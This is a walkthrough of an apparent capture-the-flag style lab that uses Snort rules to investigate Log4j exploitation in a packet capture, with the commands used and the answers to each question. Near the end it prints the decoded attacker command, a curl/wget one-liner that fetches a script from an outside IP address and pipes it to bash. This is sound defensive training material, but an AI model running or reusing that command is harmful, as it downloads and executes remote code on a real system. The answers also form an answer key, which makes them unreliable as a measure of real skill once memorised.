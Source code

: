 # Walkthrough

```bash
#Commands that I used
sudo snort -c local.rules -A console -r log4j.pcap
sudo snort -c local.rules -A full -r log4j.pcap -l .
sudo cat snort.log.1703851350 | grep -r -e sid
sudo snort -d -r snort.log.1703853098
```

\
Navigate to the task folder.\


Use the given pcap file.

Use the given rule file (local.rules) to investigate the log4j exploitation.

What is the number of detected packets?

<mark style="color:yellow;">26</mark>

&#x20;

<figure><img src="https://camo.githubusercontent.com/5ab24c5b19c5dae27d59ad703166e485ab3bb3db85c65f1d226a32f144127f7f/68747470733a2f2f692e696d6775722e636f6d2f6278734c5770522e706e67" alt=""><figcaption><p>content of local.rules</p></figcaption></figure>

&#x20;[![](https://camo.githubusercontent.com/e21f952eb38c96f160f2aab13eaeccf4d7b45cefa5512159dd82e8d39ecd1642/68747470733a2f2f692e696d6775722e636f6d2f4c4138673842372e706e67)](https://camo.githubusercontent.com/e21f952eb38c96f160f2aab13eaeccf4d7b45cefa5512159dd82e8d39ecd1642/68747470733a2f2f692e696d6775722e636f6d2f4c4138673842372e706e67)

Investigate the log/alarm files.

How many rules were triggered?.

<mark style="color:yellow;">4</mark>

&#x20;[![](https://camo.githubusercontent.com/c1fdcc3f8bba5920204d48cd90037ab5c4e778673ffe8450650c63451c5509d2/68747470733a2f2f692e696d6775722e636f6d2f5a474a3633374b2e706e67)](https://camo.githubusercontent.com/c1fdcc3f8bba5920204d48cd90037ab5c4e778673ffe8450650c63451c5509d2/68747470733a2f2f692e696d6775722e636f6d2f5a474a3633374b2e706e67)

Investigate the log/alarm files.

What are the first six digits of the triggered rule sids?

<mark style="color:yellow;">210037</mark>

&#x20;

<figure><img src="https://camo.githubusercontent.com/a8e9c02b017de6e27c70313927362077a1fa1469fd8e734a52e92c86e43a6a08/68747470733a2f2f692e696d6775722e636f6d2f327a4e374476492e706e67" alt=""><figcaption></figcaption></figure>

Clear the previous log and alarm files.

Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.

What is the number of detected packets?

<mark style="color:yellow;">41</mark>

<figure><img src="https://camo.githubusercontent.com/75b19836bb670ce35f4d8f0ded30a852b8a75509a1281936798c1bee30f5132e/68747470733a2f2f692e696d6775722e636f6d2f6a705261486e312e706e67" alt=""><figcaption></figcaption></figure>

&#x20;[![](https://camo.githubusercontent.com/72d2390644f7fa4ba99a15a991fa9d2b1d44e63bf4ee5a3560784e0ebd035010/68747470733a2f2f692e696d6775722e636f6d2f776970555a79522e706e67)](https://camo.githubusercontent.com/72d2390644f7fa4ba99a15a991fa9d2b1d44e63bf4ee5a3560784e0ebd035010/68747470733a2f2f692e696d6775722e636f6d2f776970555a79522e706e67)

Investigate the log/alarm files.

What is the name of the used encoding algorithm?

<mark style="color:yellow;">base64</mark>

&#x20;

<figure><img src="https://camo.githubusercontent.com/b0c085cc9621c026b5aaaa0665f11f2b4e82e17b05217c7aeb9f0aacc56b1ab4/68747470733a2f2f692e696d6775722e636f6d2f436442355132772e706e67" alt=""><figcaption></figcaption></figure>

Investigate the log/alarm files.

What is the IP ID of the corresponding packet?

<mark style="color:yellow;">62808</mark>

&#x20;

<figure><img src="https://camo.githubusercontent.com/5c7cd9cc6443bfa28d765c3c3db770b0754b388d6422f68d17d8d95756c33429/68747470733a2f2f692e696d6775722e636f6d2f574837716d31432e706e67" alt=""><figcaption></figcaption></figure>

Investigate the log/alarm files.

Decode the encoded command.

What is the attacker's command?

<mark style="color:yellow;">(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash</mark>

&#x20;

<figure><img src="https://camo.githubusercontent.com/55211b4fdad6e6823f25e7abaf4e526040c1eeb8469b83aaac5d369b3a02fcca/68747470733a2f2f692e696d6775722e636f6d2f577077393971422e706e67" alt=""><figcaption></figcaption></figure>

What is the CVSS v2 score of the Log4j vulnerability?

<mark style="color:yellow;">9.3</mark>
